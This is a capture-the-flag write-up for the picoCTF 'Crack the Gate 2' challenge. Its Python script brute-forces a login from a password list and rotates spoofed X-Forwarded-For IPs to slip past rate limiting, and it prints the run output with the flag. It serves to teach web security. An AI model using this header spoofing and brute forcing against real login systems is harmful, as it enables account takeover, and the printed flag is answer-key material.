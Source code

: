 ```yaml
---
title: "Crack the Gate 2"
category: "Web Exploitation"
description: "The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source."
---
```


## Information given

#### Description

The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We've received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret.

Additional details will be available after launching your challenge instance.

#### Hints:
What IP does the server think you're coming from?
Read more about [X-forwarded-For](https://www.typeerror.org/docs/http/headers/x-forwarded-for)
You can rotate fake IPs to bypass rate limits.

## Python solve script

We are also given a `passwords.txt` file:

```
o8GijNLh
FxmTBRic
PE4KtqXe
5Tec2YXd
aDbsDtO9
wSfCgTKV
jaOwWyI1
3HEQWIU0
EI528AbD
Dc7E3bM2
A9q6Ww68
MCpeUa3f
ljqkyqNf
Fbn8zYwV
bfSwplYv
qTmOzEej
jW6RWYbR
xgmwDQ3I
NITi7pqd
KANstcT2
```

Make sure that file is in the same directory as your python file:

```python
#!/usr/bin/env python3

import requests, random, json

  

TARGET = "http://amiable-citadel.picoctf.net:57333/login"

EMAIL = "ctf-player@picoctf.org"

PWFILE = "passwords.txt"

  

def rand_ip():

return "{}.{}.{}.{}".format(random.randint(1,223), random.randint(0,255), random.randint(0,255), random.randint(0,255))

  

with open(PWFILE, 'r') as f:

for line in f:

pw = line.strip()

if not pw:

continue

headers = {

"X-Forwarded-For": rand_ip(),

"User-Agent": "CTF-Checker",

"Content-Type": "application/json"

}

payload = {"email": EMAIL, "password": pw}

r = requests.post(TARGET, headers=headers, json=payload, timeout=10)

try:

j = r.json()

except Exception:

print("non-json response:", r.text)

continue

print("try", pw, "->", j)

if j.get("success"):

print("FOUND!", pw)

print("FLAG:", j.get("flag"))

break
```

## Exploitation

```bash
siddharthsehgal@mac junk % /usr/local/bin/python3 new_exploit.py
try o8GijNLh -> {'success': False}
try FxmTBRic -> {'success': False}
try PE4KtqXe -> {'success': False}
try 5Tec2YXd -> {'success': False}
try aDbsDtO9 -> {'success': False}
try wSfCgTKV -> {'success': False}
try jaOwWyI1 -> {'success': False}
try 3HEQWIU0 -> {'success': False}
try EI528AbD -> {'success': False}
try Dc7E3bM2 -> {'success': True, 'email': 'ctf-player@picoctf.org', 'firstName': 'pico', 'lastName': 'player', 'flag': 'picoCTF{xff_byp4ss_brut3_f6cca7d4}'}
FOUND! Dc7E3bM2
FLAG: picoCTF{xff_byp4ss_brut3_f6cca7d4}
```

So the flag is: `picoCTF{xff_byp4ss_brut3_f6cca7d4}`.

---